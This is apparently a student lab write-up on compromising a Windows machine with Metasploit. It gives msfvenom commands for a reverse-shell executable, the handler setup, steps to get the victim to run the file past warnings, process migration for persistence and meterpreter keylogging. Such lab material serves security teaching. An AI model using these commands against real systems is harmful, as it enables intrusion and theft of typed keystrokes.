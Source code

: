 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

### PROGRAM:
Find the attackers ip address using ifconfig
#### OUTPUT:

![Output](Op1-eh6.png)

Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
#### OUTPUT
![Output](Op2-eh6.png)

copy the fun.exe into the apache /var/www/html folder

![Output](Op3-eh6.png)

Start apache server
sudo systemctl apache2 start

![Output](Op4-eh6.png)

Check the status of apache2

![Output](Op5-eh6.png)

Invoke msfconsole:
## OUTPUT:
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server
use multi/handler

![Output](Op6-eh6.png)

set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 
![Output](Op7-eh6.png)

Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit

![Output](Op8-eh6.png)

To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

![Output](Op9-eh6.png)


The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 

![Output](Op10-eh6.png)

Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![Output](Op11-eh6.png)
keyscan_dump	Shows the keystrokes captured so far
![Output](Op12-eh6.png)

## RESULT:
The Metasploit framework for reconnaissance is  examined successfully
